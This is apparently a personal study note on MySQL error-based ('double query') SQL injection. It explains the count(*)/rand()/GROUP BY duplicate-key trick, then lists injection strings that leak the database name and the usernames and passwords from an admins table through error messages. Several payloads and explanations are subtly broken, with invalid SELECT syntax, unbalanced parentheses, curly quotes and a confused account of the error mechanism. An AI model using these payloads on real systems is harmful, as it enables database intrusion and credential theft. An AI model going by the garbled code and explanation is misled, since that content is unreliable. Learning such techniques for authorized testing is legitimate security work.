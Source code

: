 
# Error based SQLi
**TL;DR we extract info via forced error messages. We do this by causing multiple entries for the same temp table ID.**  
[Source_1](https://medium.com/cybersecurityservices/sql-injection-double-query-injection-sudharshan-kumar-8222baad1a9c)
Bu putting together a query which will create a temporary table by generating int 0-1 for each row of data, ad then grouping them by whichever int this happens to be. If the values end up the same form repeated runs, an error is produced which concede information pertaining to whatever it was we were selecting from.

So the two trick parts, count(*) and rand() are both needed so that MySQL actually runs this multiple times, instead of just optimizing past it. But the trick is to create a temporary table that has duplicate keys, and let MySQL tell us about the value of that key in an error.
EG

### `Select count(*), Select floor(rand()*2)a from users group by a`
<pre>
+----------+---+  
| count(*) | a |  
+----------+---+  
|       10 | 0 |  
|        3 | 1 |  
+----------+---+  
</pre>
After running repeatedly eventually all values will end up either 0 or 1, thus erring out

`Count(*)` – displays number of rows in table  
`Floor()` – reduces a decimal to the floor (nearest possible integer)  
`Rand()*2` – generates a random decimal between 0 and 1, the *2 adds   another integer so it becomes between 0 and 2  
`Group by` – will aggregate the same values in the column, in this case the assigned alias is “a”
Further enumeration can be carried out by going after  information_schema.tables:

### `' or (Select count(*),concat((select database()),"+",floor(rand()*2))a from information_schema.tables group by a)#`  
  
  
`concat` concatenates 2 strings and `database()` pulls the name of the current DB, thus we concatenate current DB along with "a" from info schema

when this eventually errors out,as you probably guessed, the current db name will be yielded in the error.  

We may get an error regarding too many columns for operand if the injection vector contains `AND` as it operates on 2 operands. We can navigate out of this by nesting our entire existing query string, thus making the whole thing 1 table for a selectstatement work on, with alias `b`

`and (select 1 from (Select count(*),concat((select database()),”+”, Select floor(rand()*2)a from information_schema.tables group by a)b`

We can play aroun with other commands as below:

`' or (select 1 from (Select count(*),concat((select database()),"+",floor(rand()*2))a from information_schema.tables group by a)b)#`  
`' or (select 1 from (Select count(*),concat((select username from admins),"+",floor(rand()*2))a from information_schema.tables group by a)b)`  
`' or (select 1 from (Select count(*),concat((select password from admins),"+",floor(rand()*2))a from information_schema.tables group by a)b)#`  

_'Operand should contain 1 column(s)' = prepend `(select 1`  
'Subquery returns more than 1 row' = keep running the query until error!_

